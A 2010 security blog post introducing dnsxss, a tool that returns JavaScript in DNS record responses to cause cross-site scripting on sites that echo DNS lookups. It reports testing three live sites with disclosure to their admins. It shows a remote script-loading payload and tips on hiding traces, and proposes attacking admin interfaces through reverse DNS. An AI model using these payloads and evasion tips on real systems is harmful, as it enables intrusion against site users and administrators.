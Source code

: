 ```yaml
---
id: 433
title: Stuffing Javascript into DNS names
date: '2010-04-20T10:36:54-05:00'
author: ron
layout: post
guid: http://www.skullsecurity.org/blog/?p=433
permalink: "/2010/stuffing-javascript-into-dns-names"
categories:
- dns
- hacking
- tools
comments_id: '109638350896495957'

---
```


Greetings! 

Today seemed like a fun day to write about a really cool vector for cross-site scripting I found. In my testing, this attack is pretty specific and, in some ways, useless, but I strongly suspect that, with resources I don't have access to, this can trigger stored cross-site scripting in some pretty nasty places. But I'll get to that! 

Interestingly enough, between the time that I wrote this blog/tool and published it, nCircle researchers <a href='http://www.darkreading.com/vulnerability_management/security/app-security/showArticle.jhtml?articleID=224201569'>have said almost the same thing</a> (<a href='http://blog.ncircle.com/blogs/vert/miXSS%20Whitepaper.pdf'>paper</a> (pdf)). The major difference is, I released a tool to do it and demonstrate actual examples. 
<!--more-->
<h2>dnsxss</h2>
If you've installed <a href='/wiki/index.php/Nbtool'>nbtool</a>, you may have noticed that, among other programs it comes with, one of them is called <a href='/wiki/index.php/Dnsxss'>dnsxss</a>. Take a look at the wiki page for more information, but what it does is, essentially, respond to DNS requests for CNAME, MX, TXT, and NS records with Javascript code. Unless you want some specific code, all you have to do is run it:
<pre># dnsxss
Listening for requests on 0.0.0.0:53
Will response to queries with: 
&lt;script/src='http://www.skullsecurity.org/test-js.js'&gt;&lt;/script&gt;
</pre>

Pass -h or --help for a list of arguments. 

Now, an observant reader will realize that this isn't valid HTML. Unfortunately, as far as I can tell, there's no way to send a space through DNS, so you have to come up with some space-free code. The best I could find was replacing spaces with a '/', which will work on Firefox but not IE (I haven't tested anything else). If anybody can think of a better way to write HTML without spaces, let me know. The next best solution is using the TXT query, which DOES allow spaces. dnsxss will reply to TXT queries with well formed Javascript. 

For what it's worth, dnsxss will answer A or AAAA requests with localhost (127.0.0.1 or ::1) -- if somebody does a lookup, they'll get an odd answer that won't immediately lead back to you. 

<h2>Let's break stuff!</h2>
So, what can you do with this?

Well, fortunately (or unfortunately? depends who you are), most sites don't echo back DNS records. But, some do. I picked the first three sites from a Google query and tested them out. All three were vulnerable. And I very much doubt that any programmers even *consider* filtering DNS responses. I mean, who expects DNS responses to contain HTML? 

And, furthermore, if I can sneak HTML code into pretty much any site that looks up DNS names due to lack of filtering, how about SQL injection? If the response is inserted into the database without filtering for SQL characters, which I would bet they are on at least some sites, you now have an avenue for SQL injection! And, better yet, there's a decent chance that the requests won't be logged because a) it's coming through a backchannel so it's not going to be in their Web server logs, b) the statements containing SQL injection won't be inserted to your logging table (since they wouldn't be valid queries), and c) you can turn off the DNS server whenever you want, and no trace will be left that you were ever doing it (except short-lived caches). 

As I mentioned earlier, I took the first three sites from a google query I crafted, and all three were vulnerable. I emailed the administrators of all three sites, and two of them replied thanking me. Both told me that it was a really interesting vector, and that they would fix their sites as soon as possible. The third I haven't heard back from. But the point is, on three random sites, none had even considered implementing any defenses.

Let's take a look at the examples! But first, here are some notes on them:
<ul>
<li>The examples use skullseclabs.org, which is the domain I use for all my testing -- if you plan on testing these yourself, you'll have to register your own domain</li>
<li>The examples use "/* */" to conceal the space, but I realized later that a single "/" works just as well</li>
</ul>

So, without further ado, here are some screenshots of the sites. I anonymized them a little, though a clever attacker could likely Google hack them. 
<h3>Site 1</h3>
The form:
<img src='/blogdata/dnsxss-site1-1.png'>

The result:
<img src='/blogdata/dnsxss-site1-2.png'>

The source:
<img src='/blogdata/dnsxss-site1-3.png'>

<h3>Site 2</h3>
The form:
<img src='/blogdata/dnsxss-site2-1.png'>

The result:
<img src='/blogdata/dnsxss-site2-2.png'>

The source:
<img src='/blogdata/dnsxss-site2-3.png'>

<h3>Site 3</h3>
The form:
<img src='/blogdata/dnsxss-site3-1.png'>

The result:
<img src='/blogdata/dnsxss-site3-2.png'>

The source:
<img src='/blogdata/dnsxss-site3-3.png'>

<h3>So there we go...</h3>
Three sites, none of which filter out my cross-site scripting attempts. Fun!

<h2>Weaponization</h2>
The problem is, this only affects a small percentage of sites -- those that will look up domains and display them for you. How can this be used against more targets?

Well, I have two ideas:
<ol>
<li>As I mentioned earlier, I'd bet money that there are other forms of attacks through these avenues -- I'd be surprised if SQL injection didn't exist</li>
<li>Can you stuff javascript into <strong>reverse</strong> DNS entries?</li>
</ol>

The second point, I suspect, is where we're going to have fun. I can think of countless security devices, from firewalls to vulnerability management tools to proxy servers, with Web interfaces that display reverse DNS records. Not to mention tools where administrators are shown reverse lookups -- forums, for example. Another avenue is logfiles, which are normally visible to administrators. 

In all of these cases, if you can stuff Javascript into reverse DNS lookups, you will likely find some very interesting vulnerabilities. Plus, you can instantly see when somebody hits one, and, more often than not, you can clean up your tracks quite well. 

I don't have access to any domains where I control the reverse DNS records, but if anybody does I'd love to test this out! 

